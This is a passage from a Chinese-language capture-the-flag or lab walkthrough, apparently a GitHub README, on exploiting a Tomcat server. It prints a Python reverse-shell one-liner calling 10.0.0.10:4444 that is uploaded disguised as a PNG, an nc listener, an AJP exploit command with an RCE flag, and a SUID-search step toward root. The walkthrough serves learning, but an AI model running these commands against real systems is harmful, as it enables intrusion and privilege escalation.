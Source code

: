 ![image-20200306135736220](README.assets/image-20200306135736220.png)

原因是`/root/flag`只有root用户才能访问。很明显，需要提权。根据上一步的提示，使用SUID进行提权。

在提权之前，为了操作方便，最好能反弹获得一个可交互shell。

本地使用

```
nc -lvvp 4444
```

进行监听。



通过`pwd`命令获取当前目录`/usr/share/tomcat`

得到绝对路径`/usr/share/tomcat/webapps/ROOT/upload/`

上传一个反弹用的python脚本。

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.0.0.10',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);
```

路径为`/usr/share/tomcat/webapps/ROOT/upload/1583474718400-ad3515c408474508bb422b2393a9cf64.png`

并执行`python/usr/share/tomcat/webapps/ROOT/upload/1583474718400-ad3515c408474508bb422b2393a9cf64.png` 。

```
python3 2020-10487.py 10.0.0.39 -p 8009 -f upload/1583475511057-96cb11a82462415a892057da63c1d0a6.jpg --rce 1
```

成功反弹shell。



```
python -c 'import pty;pty.spawn("/bin/bash")'
```

以上命令可获得更好的体验。如果没有执行成功也没关系。



使用以下命令查找SUID程序

```
find / -user root -perm -4000 -print 2>/dev/null
```

